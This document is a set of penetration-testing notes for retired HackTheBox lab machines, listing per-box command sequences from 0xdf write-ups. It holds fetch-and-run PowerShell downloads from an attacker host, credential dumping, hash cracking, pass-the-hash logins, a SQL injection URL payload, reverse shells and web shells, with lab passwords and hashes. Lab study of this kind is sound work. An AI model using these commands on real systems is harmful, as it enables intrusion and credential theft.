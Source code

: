 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```


# Win-Forest
https://0xdf.gitlab.io/2020/03/21/htb-forest.html
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
enum4linux 10.10.10.161
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hashsvc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
./smbserver.py share . -smb2support -username df -password df
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```


# Win-Active
https://0xdf.gitlab.io/2018/12/08/htb-active.html
```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
./GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 –request
john hash_admin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
./psexec.py Administrator:Ticketmaster1968@10.10.10.100
```


# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
Read GMSA Password
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```


# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```





# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```


# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```


# Lin-Haircut
```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```

# Lin-Backdoor
https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
```
http://10.10.11.125/wp-content/plugins/
WordPress Plugin eBook Download 1.1 - Directory Traversal
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
GNU gdbserver 9.2 - Remote Command Execution (RCE)
ps aux
screen -x root/root
```

# Lin-Pandora
```
nmap -sU -T5 10.10.11.136
snmpwalk -v 1 -c public 10.10.11.136
ssh daniel@10.10.11.136
ssh -D 9090 daniel@10.10.11.136
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
Upload - php-reverse-shell.php
./LinEnum.sh
cat .ssh/id_rsa.pub
SUID - /usr/bin/pandora_backup
```
